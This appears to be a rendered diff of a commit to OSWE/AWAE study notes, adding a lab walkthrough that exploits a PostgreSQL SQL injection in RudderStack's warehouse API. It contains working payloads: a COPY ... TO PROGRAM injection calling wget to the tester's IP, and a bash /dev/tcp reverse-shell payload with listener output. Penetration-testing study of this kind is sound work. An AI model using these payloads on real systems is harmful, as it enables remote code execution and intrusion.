

Before and after one commit to m0hammad-yaser/OSWE-AWAE-Notes, a Markdown page: RudderStack/README.md, the part around the change. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/RudderStack/README.md
+++ b/RudderStack/README.md
@@ -310,3 +310,60 @@ func setupDB(ctx context.Context, connInfo string) error {
 We could also consult the application's online documentation. In a black box assessment scenario, we could research the error message online to determine the database.
 
 Since our injection point is at the end of the SQL statement and we are dealing with a PostgreSQL database, we have the ability to inject stacked queries.
+
+We've confirmed the SQL injection vulnerability. Now, let's consider using PostgreSQL's `COPY` command, which can read from or write to local files if the user has the `pg_read_server_files` or `pg_write_server_files` roles. **While this isn't useful here, it can be valuable if the web app and database share the same server**.
+
+The `COPY` command can also copy data to or from a program or command if the database user has the `pg_execute_server_program role`. If the exploited database user has this permission, we have many options available for remote code execution. Verbose error messages may also disclose when an injection payload fails due to a lack of permissions.
+
+Let's try using `COPY` to call `wget` and send a request back to our VM. First, we'll set up an HTTP server with Python to handle the request.
+```bash
+┌──(kali㉿kali)-[~]
+└─$ python3 -m http.server 80
+Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
+
+```
+Next, we'll update the `source_id` in *Repeater* to `'; copy (select 'a') to program 'wget -q http://192.168.45.203:80/it_worked' -- -`:
+```text
+POST /v1/warehouse/pending-events?triggerUpload=true HTTP/1.1
+Host: rudderstack:8080
+Content-Type: application/json
+Content-Length: 102
+
+{
+"source_id": "'; copy (select 'a') to program 'wget -q http://192.168.45.203:80/it_worked' -- -"
+}
+```
+The application responded with an error, indicating that wget failed. However, if we check our HTTP server, the server did send a request.
+```bash
+┌──(kali㉿kali)-[~]
+└─$ python3 -m http.server 80
+Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
+192.168.130.144 - - [31/Jul/2025 16:05:49] code 404, message File not found
+192.168.130.144 - - [31/Jul/2025 16:05:49] "GET /it_worked HTTP/1.1" 404 -
+
+```
+We were able to use the SQL injection vulnerability to run a command on the server. From here, we should be able to get a reverse shell on the server.
+```text
+POST /v1/warehouse/pending-events?triggerUpload=true HTTP/1.1
+Host: rudderstack:8080
+Content-Type: application/json
+Content-Length: 114
+
+{
+"source_id": "'; copy (select 'a') to program 'bash -c \"bash -i >& /dev/tcp/192.168.45.203/1337 0>&1\"' -- -"
+}
+```
+Let's check our Netcat listener:
+```bash
+┌──(kali㉿kali)-[~]
+└─$ nc -nlvp 1337
+listening on [any] 1337 ...
+connect to [192.168.45.203] from (UNKNOWN) [192.168.130.144] 33746
+bash: cannot set terminal process group (85): Not a tty
+bash: no job control in this shell
+5bb0f9d91064:~/data$ id
+id
+uid=70(postgres) gid=70(postgres) groups=70(postgres),70(postgres)
+5bb0f9d91064:~/data$
+```
+We now have a reverse shell.
````
